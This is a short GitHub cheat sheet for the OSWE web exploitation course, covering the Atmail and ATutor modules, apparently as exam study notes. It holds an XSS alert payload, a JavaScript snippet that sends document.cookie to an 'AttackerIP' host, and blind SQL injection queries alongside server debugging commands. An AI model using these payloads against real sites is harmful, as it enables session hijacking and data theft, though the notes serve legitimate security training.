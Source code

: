 # OSWE-cheat-sheet
OSWE-cheat sheet module by module with updated syllabus:

Module : Atmail (PHP):

1. Access and alert cookie payload (Httponly flag should be disable in set-Cookie headers)<br>
    #<script>alert(document.cookie);</script>
    
2. Run Python Server in python3<br>
    #python3 -m http.server
    
3. Embeded cookie steal payload in image tag<br>
    #function addImage() {<br>
    #var img = document.createElement('img');<br>
    #img.src = 'http://AttackerIP:port/' + document.cookie;<br>
    #document.body.appendChild(img);<br>
    #}<br>
    #addImage();<br>
    
4. Set cookie by web developer console<br>
    #javascript:void(document.cookie="cookiename=value");
 
5. XHR POST Request <br>
    #xhr= new XMLHttpRequest()<br>
    #xhr.open("POST", url, true)<br>
    #xhr.send(data)<br>
    
6. XHR GET Request <br>
    #xhr= new XMLHttpRequest()<br>
    #xhr.open("GET", url, true)<br>
    #xhr.send()<br>

 Module : ATutor Authentication Bypass and RCE (PHP) :<br>
 1. Enable MySQL DB logging<br>
    #nano /etc/mysql/my.cnf         // uncomment or add below line<br>
            #[mysqld]<br>
            #general_log_file = /var/log/mysql/mysql.log<br>
            #general_log = 1<br>
    #systemctl restart mysql        //Restart MySQL<br>
    #tail –f /var/log/mysql/mysql.log   //Access MySQL Log<br>
    
 2. Enable PHP verbose error<br>
    #nano /etc/php5/apache2/php.ini   //uncomment or add below line<br>
        #display_errors = On <br>
    #systemctl restart apache2     //Restart Apache<br>
    
3. Print statement in PHP<br>
    #echo "any message";<br>
    
4. Dump information about varaible<br>
    #var_dump($var);<br>
    
5. Serach for fiunction in code<br>
    #grep -rnw "function name(" ./ --color<br>
    
5. Check magic quote enable<br>
    #var_dump(get_magic_quotes_gpc());  /** for enable value is 1 **/<br>
    
6. MYSQL query without space<br>
    #mysql> select/**/1; <br>
    
7. Extract first character of MySql version in case of blind MySQL query<br>
    #mysql> select/**/ascii(substring((select/**/version()),1,1))=53;  /** use with "or" boolean **/<br>

    
